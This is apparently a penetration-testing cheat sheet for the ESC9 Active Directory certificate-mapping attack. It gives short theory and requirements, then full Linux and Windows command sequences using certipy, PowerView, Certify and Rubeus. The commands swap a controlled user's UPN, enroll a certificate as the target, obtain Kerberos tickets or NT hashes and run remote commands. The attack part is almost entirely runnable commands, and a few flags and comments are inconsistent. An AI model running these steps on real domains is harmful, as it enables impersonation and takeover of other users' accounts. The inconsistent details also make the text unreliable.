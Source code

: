 # ESC9—Certificate Mapping via NoSecurityExtension (CT_FLAG_NO_SECURITY_EXTENSION)

## Theory

> [!Overview] Title
> If an enrollable, client-auth template sets `CT_FLAG_NO_SECURITY_EXTENSION` in `msPKI-Enrollment-Flag`, the CA omits the `szOID_NTDS_CA_SECURITY_EXT`. This bypasses strong certificate-to-account binding even when `StrongCertificateBindingEnforcement=1`, causing mapping to fall back to UPN-only. An attacker with the ability to modify a user’s UPN can set a controlled user’s UPN to the target’s UPN, enroll a cert from the vulnerable template, and receive a cert that maps to the target account.

## Requirements

- `StrongCertificateBindingEnforcement != 2` (default is `1`) **or** `CertificateMappingMethods` includes UPN (`0x4`).
- Vulnerable template has **NoSecurityExtension** (`CT_FLAG_NO_SECURITY_EXTENSION`) and **Client Authentication** EKU.
- Attacker has **GenericWrite/GenericAll** over a user **<CONTROLLED_USER>** to modify its UPN (or reset its password).
- Ability to enroll in the vulnerable template.

### Placeholders

`<DOMAIN>` `<FOREST_DN>` `<DC_IP>` `<CA_FQDN>` `<CA_NAME>` `<TEMPLATE_NAME>` `<USER>` `<PASS>` `<CONTROLLED_USER>` `<CONTROLLED_UPN>` `<TARGET_USER>` `<TARGET_UPN>` `<PFX_FILE>` `<TARGET_HOST_FQDN>`

---

## Linux

### Enumerate

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Look for: Enrollment Flag includes NoSecurityExtension, EKU includes Client Authentication
```

Verify rights over a controllable user:

- With Impacket/PowerView from Linux, or use `dacledit.py` (if available) to confirm `GenericWrite/GenericAll` on `<CONTROLLED_USER>`.

```bash
dacledit.py -action read -dc-ip <DC_IP> '<DOMAIN>/<USER>:<PASS>' -principal <USER> -target <TARGET_USER>
```

### Step 1—Gain/use Credentials for <CONTROLLED_USER>

- Either know `<CONTROLLED_USER>`’s creds/hash or set a password / add shadow credentials.

Example (shadow credentials approach):

```bash
certipy shadow auto -u '<USER>@<DOMAIN>' -p '<PASS>' -account <CONTROLLED_USER>
# Produces a TGT/NT hash for <CONTROLLED_USER> without changing their password
```

### Step 2—Set <CONTROLLED_USER> UPN to the target’s UPN

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' \
  -user <CONTROLLED_USER> -upn '<TARGET_UPN>'
```

### Step 3—Request Cert from Vulnerable Template as <CONTROLLED_USER>

(If using NT hash from shadow creds, use `-hashes <NTLM_HASH>` instead of `-p`.)

```bash
certipy req -u '<CONTROLLED_USER>@<DOMAIN>' \
  -hashes '<CONTROLLED_USER_PASSWORD>' \
  -dc-ip <DC_IP> -ca '<CA_NAME>' -template '<TEMPLATE_NAME>' \
  -out '<PFX_FILE>'
# Expect: "Certificate has no object SID" and UPN shows <TARGET_UPN>
```


### Step 4—Revert <CONTROLLED_USER> UPN

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' \
  -user <CONTROLLED_USER> -upn '<CONTROLLED_UPN>'
```

### Step 5—Authenticate as <TARGET_USER>

```bash
certipy auth -pfx '<PFX_FILE>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# Produces <TARGET_USER>.ccache and may return NT hash
```

### Step 6—Use TGT

```bash
KRB5CCNAME=<TARGET_USER>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
```

---

## Windows

### Enumerate

```powershell
.\Certify.exe find
# Identify templates with:
#   mspki-enrollment-flag: ... NO_SECURITY_EXTENSION
#   pkiextendedkeyusage / mspki-certificate-application-policy includes Client Authentication
```

Check registry for StrongCertificateBindingEnforcement and CertificateMappingMethods (if you have admin access):

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\Kdc
# StrongCertificateBindingEnforcement must not be 0x2
reg query HKLM\System\CurrentControlSet\Control\SecurityProviders\Schannel
# CertificateMappingMethods should be 0x4
```

Find a user you control (GenericWrite/GenericAll):

```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
Import-Module .\PowerView.ps1
$me = (Get-DomainUser -Identity '<USER>')
Get-DomainObjectAcl -LDAPFilter "(&(objectClass=user)(objectCategory=person))" -ResolveGUIDs |
  ? { ($_.ActiveDirectoryRights -contains 'GenericAll' -or $_.ActiveDirectoryRights -contains 'GenericWrite') -and $_.SecurityIdentifier -eq $me.objectsid }
```

Or use BloodHound.

### Step 1—Get or Set Creds for <CONTROLLED_USER>

```powershell
# If you have rights:
Set-DomainUserPassword -Identity <CONTROLLED_USER> -AccountPassword (ConvertTo-SecureString 'StrongPass123!' -AsPlainText -Force)
```

### Step 2—Set <CONTROLLED_USER> UPN to <TARGET_UPN>

```powershell
Set-DomainObject <CONTROLLED_USER> -Set @{'userPrincipalName'='<TARGET_UPN>'} -Verbose
```

### Step 3—Run as <CONTROLLED_USER> and Enroll (you Need a session/context as that user)

- Use RDP (`xfreerdp`), “Run as different user”, or RunasCS.

```powershell
# In a PowerShell running as <CONTROLLED_USER>:
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<TARGET_USER> > target.pem
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in target.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out target.pfx
```

### Step 4—Revert <CONTROLLED_USER> UPN

```powershell
Set-DomainObject <CONTROLLED_USER> -Set @{'userPrincipalName'='<CONTROLLED_UPN>'}
```

### Step 5—Authenticate as <TARGET_USER>

```powershell
.\Rubeus.exe asktgt /user:<TARGET_USER> /certificate:target.pfx /getcredentials /nowrap
# => Base64 TGT and possibly NTLM
```

### Step 6—Use Ticket

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe ptt /ticket:<BASE64_TGT>
```
